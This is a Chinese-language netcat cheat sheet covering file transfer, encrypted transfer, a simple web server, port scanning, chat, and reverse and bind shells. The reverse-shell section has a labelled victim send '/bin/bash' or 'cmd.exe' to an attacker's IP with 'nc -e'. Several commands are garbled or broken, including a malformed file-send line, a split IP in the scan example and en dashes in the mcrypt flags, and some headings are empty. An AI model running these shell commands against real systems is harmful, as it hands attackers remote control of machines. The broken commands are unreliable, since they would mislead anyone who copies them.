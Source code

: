 # netcat

### 什么是 netcat？

网络工具中的瑞士军刀

### 不同版本差异

Linux 下 netcat 存在两个版本

* netcat-openbsd（默认）
* netcat-traditional

前者为 ubuntu 软件源默认选项，但功能较弱。建议安装 netcat-traditional。 netcat-traditional 支持 `-e` 参数。

### 基础使用

连接指定 IP 指定端口

```bash
nc 192.168.1.1 22
```

### 目录传输

发送方

```bash
tar -cvf – dir_name | nc -l 1567
```

接收方

```bash
nc -n 172.31.100.7 1567 | tar -xvf -
```

### 克隆设备

### DoS

### 加密

对称加密

```bash
nc localhost 1567 | mcrypt –flush –bare -F -q -d -m ecb > file.txt
```

```bash
mcrypt –flush –bare -F -q -m ecb < file.txt | nc -l 1567
```

### 接收 / 传输文件

发送方\(192.168.1.1\)

```bash
nc 192.168.1.2 8888 C tokyohot . avi
```

接收方\(192.168.1.2\)

```bash
nc -nlvp 8888 > english.avi
```

反之亦然

### 简易 WEB 服务器

```bash
while true; do
echo -e "HTTP/1.1 200 OK\n\n $(date)" | nc -lnvp 80
done
```

### 端口扫描

```bash
nc -znv 192. 168.1.11-1824
-z Specifies that nc should just scan
```

### 聊天服务器

用户 A（192.168.1.1）

```bash
nc -lnvp 4444
```

用户 B

```bash
nc 192.168.1.1 4444
```

### 反向 Shell

攻击者（192.168.1.1）

```bash
nc -lnvp 4444
```

受害者（192.168.1.2）

```bash
nc 192.168.1.1 4444 -e cmd.exe
nc 192.168.1.1 4444 -e /bin/bash
```

### 正向 Shell

受害者（192.168.1.2）

```bash
nc -lnvp 4444 cmd.exe
nc -lnvp 4444 /bin/bash
```

攻击者（192.168.1.1）

```bash
nc 192.168.1.2 4444
```

